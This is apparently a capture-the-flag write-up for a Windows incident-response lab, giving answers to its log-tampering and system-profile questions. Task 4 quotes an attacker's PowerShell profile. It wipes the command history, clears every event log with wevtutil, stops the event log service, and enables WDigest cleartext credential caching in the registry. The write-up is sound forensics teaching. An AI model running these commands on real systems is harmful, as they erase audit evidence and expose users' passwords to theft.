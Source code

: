 > # Windows Incident Surface

# Summary
- [Summary](#summary)
  - [Task 4 - Reliability of the System Tools](#task-4---reliability-of-the-system-tools)
  - [Task 5 - System Profile](#task-5---system-profile)
  - [Task 6 - Users and Sessions](#task-6---users-and-sessions)
  - [Task 7 - Network Scope](#task-7---network-scope)
  - [Task 8 - Background Activities I: Startup and Registry](#task-8---background-activities-i-startup-and-registry)
  - [Task 9 - Background Activities II: Services and Scheduled Items](#task-9---background-activities-ii-services-and-scheduled-items)
  - [Task 10 - Background Activities III: Processes and Directories](#task-10---background-activities-iii-processes-and-directories)


##  Task 4 - Reliability of the System Tools
1. What tool did the adversary use to delete the logs?<br>
    Follow all command given by documents, the file `ps_profile_dump.txt` contains all command attacker type on PowerShell. To detele event log, the attacker use built-in tool `wevtutil`.<br>
    ```powershell
    Set-PSReadlineOption -HistorySaveStyle SaveNothing
    Remove-Item (Get-PSReadlineOption).HistorySavePath -ErrorAction SilentlyContinue
    Write-Host "Less Murphy Ventures  Co. Ps-History-Shredder Profile" -ForegroundColor Green
    Write-Host "Loading Secure Console" -ForegroundColor Green
    wevtutil el | ForEach-Object {wevtutil cl $_}; Stop-Service -Name "eventlog" -Force
    New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" -Name "UseLogonCredential" -Value 1 -PropertyType DWORD -Force
    Set-Location "$Env:UserProfile\Desktop"
    ```
    **Answer:** wevtutil

2. What was the registry path used by the adversary to store and steal the login credentials?<br>
    From the above, the attacker had set the `UseLogonCredential` key to save cleartext password in memory.<br>
    **Answer:** HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest

##  Task 5 - System Profile
1. What is the hostname of the compromised host?<br>
    File `sysinfo.txt` will hep us.<br>
    ```
    CSName         : CCTL-WS-018-B21
    Version        : 10.0.17763
    BuildNumber    : 17763
    InstallDate    : 3/17/2021 5:59:06 PM
    LastBootUpTime : 6/29/2024 4:28:49 PM
    OSArchitecture : 64-bit
    ```
    **Answer:** CCTL-WS-018-B21
